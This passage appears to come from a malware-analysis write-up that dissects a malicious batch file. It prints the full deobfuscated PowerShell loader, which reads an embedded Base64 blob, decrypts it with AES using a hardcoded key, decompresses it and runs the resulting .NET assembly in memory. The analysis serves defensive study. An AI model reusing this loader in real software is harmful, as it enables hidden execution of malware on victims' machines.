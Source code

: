 **NOTE:** The batch_deobfuscator script seems to use `script.bat` as the name of the input file, so if this script is run against the payload, all filename-based variables will be `script.bat` instead of the actual name of the file.

First, the batch file copies the powershell.exe binary to \<filename\>.exe, where \<filename\> is the name of the batch file. It then uses `~nx0`, which in batch terms means the name of the current batch file, and combines it with .exe to get the name of the newly copied powershell.exe binary. From here, it runs a large PowerShell command.

## PowerShell Payload

Copying the `-command` portion of the PowerShell payload and cleaning it up a bit reveals the following:

```PowerShell
$yruxp = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')('payload.bat').Split([Environment]::NewLine) 
foreach ($AoHcJ in $yruxp) 
{ 
    if ($AoHcJ.StartsWith(':: ')) 
    {  
        $jSeTT = $AoHcJ.Substring(3)  
        break  
    }  
}
$iPrdF = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')($jSeTT) 
$pstaK = New-Object System.Security.Cryptography.AesManaged 
$pstaK.Mode = [System.Security.Cryptography.CipherMode]::CBC 
$pstaK.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7 
$pstaK.Key = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('oK9Sb6xmpGv+i/gAJDgfaubHDtLnuOUbT8h3z0NIMvs=') 
$pstaK.IV = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('CUeA3Qkm0ivKUIPg7zp+ug==') 
$FYwLw = $pstaK.CreateDecryptor() 
$iPrdF = $FYwLw.TransformFinalBlock($iPrdF,0,$iPrdF.Length)
$FYwLw.Dispose() 
$pstaK.Dispose() 
$XhabZ = New-Object System.IO.MemoryStream($iPrdF) 
$lkvIz = New-Object System.IO.MemoryStream 
$oenGH = New-Object System.IO.Compression.GZipStream($XhabZ,[IO.Compression.CompressionMode]::Decompress) 
$oenGH.CopyTo($lkvIz) 
$oenGH.Dispose() 
$XhabZ.Dispose() 
$lkvIz.Dispose() 
$iPrdF = $lkvIz.ToArray()
$QQBse = [System.Reflection.Assembly]::('daoL'[-1..-4] -join '')($iPrdF) 
$qnZNg = $QQBse.EntryPoint 
$qnZNg.Invoke($null  (  [string[]] ('')))
```

This command does a number of things. First, it queries the original batch file, `payload.bat`, for lines that start with "::". If we look back at the original batch file, we can see a large line that starts with the "::" character. The PowerShell command takes the Base64-encoded blob on this line and decodes it. This decoded value is also encrypted with AES-CBC, so the command then decrypts the value with the specified encryption key and IV (also Base64-encoded). Finally, this latest value is compressed with the gzip data format, so it also decompresses it. At this point, the script has the actual payload that was contained within the batch file, which it then loads into the process and executes it.
